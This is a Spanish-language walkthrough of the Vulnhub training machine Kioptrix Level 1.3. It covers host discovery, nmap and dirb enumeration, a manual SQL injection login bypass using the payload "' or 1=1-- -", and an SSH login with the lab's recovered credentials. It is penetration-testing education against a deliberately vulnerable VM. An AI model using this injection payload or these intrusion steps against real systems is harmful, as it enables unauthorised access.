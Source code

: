<p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=390&height=80&lines=KIOPTRIX_1.3"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/kioptrix-level-13-4,25/

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con Arp-Scan. 
```
arp-scan --interface eth0 -l
```
![1](https://user-images.githubusercontent.com/75953873/178128766-c1eb1f99-56e6-4449-a3f2-bf9345a59492.png)

IP host: `192.168.25.138`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.25.138
```
![2](https://user-images.githubusercontent.com/75953873/178128792-82993633-dc3c-4167-ab2c-4e0c05570d37.png)

Puertos abiertos: [22,80,139,445]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 22,80,139,445 -A 192.168.25.138
```
![3](https://user-images.githubusercontent.com/75953873/178128892-5d15426d-7724-4b96-ac14-8fa749662bc6.png)

![3 2](https://user-images.githubusercontent.com/75953873/178128937-364e11ba-8b5a-475b-a4c3-f5713ebe4d66.png)

Servidor corriendo: **HTTP Apache**

O.S: **Linux**

URL: `http://192.168.25.138`

![4](https://user-images.githubusercontent.com/75953873/178128981-b955ab0e-8efa-4d7b-a4a2-9ab170f6c50c.png)

La enumeración de directorios y archivos con Dirb encuentra un directorio llamado `john`, pero esté no revela nada relevante.
```
dirb http://192.168.25.138
```
![5](https://user-images.githubusercontent.com/75953873/178129062-4b519854-bfa5-469c-82a6-346010347a17.png)

![6](https://user-images.githubusercontent.com/75953873/178129075-842d66d2-e997-45c6-8cce-84d712f3c0db.png)

- *Paso 4:* Inyección SQL manual.

En el panel de login se debe ingresar el usuario `john` y la contraseña `' or 1=1-- -`.

![7](https://user-images.githubusercontent.com/75953873/178129163-cf68f241-8cbb-4d11-ac2a-50263173b630.png)

- *Paso 5:* Conectarse al servidor SSH.
```
ssh -oHostKeyAlgorithms=+ssh-dss john@192.168.25.138 -l john
```

Usuario: `john`

Contraseña: `MyNameIsJohn`

![8](https://user-images.githubusercontent.com/75953873/178129218-e0862b3b-4d30-44b2-8352-cc0e39f5d10c.png)

